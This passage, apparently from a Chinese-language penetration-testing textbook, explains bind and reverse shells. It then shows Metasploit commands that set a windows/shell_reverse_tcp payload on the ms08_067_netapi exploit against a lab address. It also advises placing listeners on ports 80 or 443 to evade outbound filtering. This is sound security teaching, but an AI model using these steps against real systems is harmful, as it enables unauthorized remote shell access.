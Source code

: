 ## Shell 类型

在示例 4-7 中显示的兼容有效载荷列表中，你会看到一系列选项，包括命令 shell、Meterpreter、语音 API 或执行单个 Windows 命令。不论是 Meterpreter 还是其他，shell 可以分为两类：绑定（bind）和反向（reverse）。

### 绑定 Shell

*绑定 shell* 指示目标机器打开一个命令 shell，并在本地端口上监听。然后，攻击机器连接到目标机器的监听端口。然而，随着防火墙的出现，绑定 shell 的有效性下降，因为任何正确配置的防火墙都会阻止到一些随机端口（如 4444）的流量。

### 反向 Shell

*反向 shell* 则相反，它主动将连接推回到攻击机器，而不是等待传入连接。在这种情况下，我们在攻击机器上打开一个本地端口并监听来自目标的连接，因为这种反向连接更有可能穿越防火墙。

### 注意

你可能会想，“这本书是 2002 年写的吗？我的防火墙有出站过滤。”现代防火墙不仅能阻止入站连接，还能阻止出站连接。例如，阻止你的环境中的主机连接到端口 4444 是轻而易举的。但假设我把监听器设置在端口 80 或 443 上。对于防火墙来说，这看起来就像是网页流量，而你也知道，必须让用户能够从工作站访问 Facebook，否则会引发叛乱和混乱。

## 手动设置有效载荷

让我们选择一个 Windows 反向 shell 作为有效载荷。设置有效载荷的方式与设置 `RHOST` 选项相同：`set payload` *`<使用的有效载荷>`*。

```
msf  exploit(ms08_067_netapi) > **set payload windows/shell_reverse_tcp**
payload => windows/shell_reverse_tcp
```

由于这是一个反向 shell，我们需要告诉目标机器将 shell 发送到哪里；具体来说，我们需要提供攻击机器的 IP 地址和我们将监听的端口。再次运行 **`show options`**，如 示例 4-9 所示，将显示模块及其有效载荷选项。

示例 4-9. 带有效载荷的模块选项

```
msf  exploit(ms08_067_netapi) > **show options**

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    192.168.20.10    yes       The target address
   RPORT    445              yes       Set the SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)

Payload options (windows/shell_reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process, none
  ❶LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting
```
